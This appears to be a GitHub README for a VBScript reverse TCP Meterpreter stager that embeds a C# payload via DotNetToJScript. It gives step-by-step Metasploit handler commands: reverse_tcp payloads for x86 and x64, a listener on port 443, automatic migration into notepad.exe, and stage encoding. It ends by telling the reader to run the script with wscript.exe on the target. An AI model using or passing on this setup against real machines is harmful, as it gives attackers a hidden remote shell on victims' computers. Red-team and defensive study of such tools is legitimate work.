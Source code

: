 ```
____   ______________  _________   _____          __                
\   \ /   /\______   \/   _____/  /     \   _____/  |_  ___________ 
 \   Y   /  |    |  _/\_____  \  /  \ /  \_/ __ \   __\/ __ \_  __ \
  \     /   |    |   \/        \/    Y    \  ___/|  | \  ___/|  | \/
   \___/    |______  /_______  /\____|__  /\___  >__|  \___  >__|   
                   \/        \/         \/     \/          \/       
```
### VBS Reversed TCP Meterpreter Stager - by Cn33liz 2017
CSharp Meterpreter Stager build by Cn33liz and embedded within VBScript using DotNetToJScript from James Forshaw
https://github.com/tyranid/DotNetToJScript

This Stager should run on x86 as well as x64

```
Usage:
Change RHOST and RPORT settings to suit your needs.

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp <- When run from x64 version of wscript.exe
set PAYLOAD windows/meterpreter/reverse_tcp <- When run from x86 version of wscript.exe
set LHOST 0.0.0.0
set LPORT 443
set AutoRunScript post/windows/manage/migrate NAME=notepad.exe
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j

Then run: wscript.exe VBSMeter.vbs on Target
```

